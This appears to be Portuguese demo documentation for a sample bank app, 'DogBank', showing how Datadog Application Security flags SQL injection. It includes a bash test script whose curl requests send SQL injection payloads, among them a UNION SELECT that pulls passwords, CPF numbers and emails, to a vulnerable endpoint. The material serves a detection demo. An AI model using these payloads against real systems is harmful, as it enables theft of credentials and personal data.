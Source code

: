   "input_pix_key": "yuki.pix@email.com' OR '1'='1",
  "endpoint": "/api/transactions/validate-pix-key"
}
2. APM Traces
Filtre por:
@appsec.event:true
3. Application Security → Threats
Vá para: https://app.datadoghq.com/security/appsec/threats
Você verá:

🚨 SQL Injection Attack Detected
Severity: HIGH
Attack Type: SQL Injection
Payload: yuki.pix@email.com' OR '1'='1
Service: transactions
IP Address: Seu IP

4. Security Signals
https://app.datadoghq.com/security
Datadog criará um Security Signal automaticamente:

Rule: SQL Injection detected
Status: Triggered
Affected Service: transactions

🎬 Script de Teste Completo
bash#!/bin/bash

BASE_URL="http://your-loadbalancer-url"

echo "🔒 Testando SQL Injection no DogBank"
echo ""

# Teste 1: Normal
echo "1️⃣ Query NORMAL:"
curl -s "${BASE_URL}/api/transactions/validate-pix-key?pixKey=yuki.pix@email.com" | jq .
echo ""

# Teste 2: SQL Injection básico
echo "2️⃣ SQL INJECTION - OR 1=1:"
curl -s "${BASE_URL}/api/transactions/validate-pix-key?pixKey=' OR '1'='1" | jq .
echo ""

# Teste 3: Union-based
echo "3️⃣ UNION-BASED SQL INJECTION:"
curl -s "${BASE_URL}/api/transactions/validate-pix-key?pixKey=' UNION SELECT nome, senha, cpf, email, banco, chave_pix FROM usuarios--" | jq .
echo ""

# Teste 4: Comment-based
echo "4️⃣ COMMENT-BASED:"
curl -s "${BASE_URL}/api/transactions/validate-pix-key?pixKey=test'--" | jq .
echo ""
